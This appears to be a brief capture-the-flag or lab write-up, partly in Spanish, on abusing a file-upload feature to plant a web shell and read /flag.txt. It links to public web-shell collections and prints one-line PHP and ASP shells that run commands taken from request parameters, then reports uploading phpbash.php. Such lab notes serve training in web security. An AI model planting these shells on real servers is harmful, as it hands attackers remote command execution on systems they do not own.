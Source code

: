 # Upload Exploitation

Try to exploit the upload feature to upload a web shell and get the content of /flag.txt

Usefull shells:
- https://github.com/Arrexel/phpbash
- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
- ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
- ```php
  <?php system($_GET['cmd']); ?>
  ```
- `.NET`:
  ```asp
  <% eval request('cmd') %>
  ```

Subimos el web-shell `phpbash.php`:
![image](https://github.com/user-attachments/assets/96804962-33fd-43e2-9d9c-c411de360d86)




